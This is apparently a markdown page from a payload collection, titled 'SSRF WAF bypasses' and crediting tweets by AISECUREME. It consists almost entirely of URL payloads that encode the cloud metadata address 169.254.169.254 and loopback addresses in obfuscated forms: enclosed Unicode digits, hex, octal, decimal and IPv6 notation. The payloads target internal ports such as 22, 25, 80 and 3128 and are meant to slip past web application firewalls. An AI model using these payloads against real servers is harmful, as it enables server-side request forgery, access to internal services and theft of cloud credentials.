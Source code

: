 SSRF WAF BYPASSES [tweet](https://twitter.com/aisecureme/status/1238061828229353473) By [AISECUREME](https://twitter.com/aisecureme)

![SSRF](Images/ssrf.png)

```
http://⑯⑨。②⑤④。⑯⑨｡②⑤④/
http://⓪ⓧⓐ⑨｡⓪ⓧⓕⓔ｡⓪ⓧⓐ⑨｡⓪ⓧⓕⓔ:80/
http://⓪ⓧⓐ⑨ⓕⓔⓐ⑨ⓕⓔ:80/
http://②⑧⑤②⓪③⑨①⑥⑥:80/
http://④②⑤｡⑤①⓪｡④②⑤｡⑤①⓪:80/
http://⓪②⑤①。⓪③⑦⑥。⓪②⑤①。⓪③⑦⑥
```

[tweet](https://twitter.com/aisecureme/status/1238853314193682432) By [AISECUREME](https://twitter.com/aisecureme)
```http://[::]:80/
http://[::]:25/
http://[::]:22/
http://[::]:3128/
http://0000:80/::1/
http://0000:25/::1/
http://0000:22/::1/
http://0000:3128/::1/
http://127.0.1.3/
http://127.0.0.0/
http://0177.0.0.1/
http://2130706433/
http://3232235521/
http://3232235777/
```
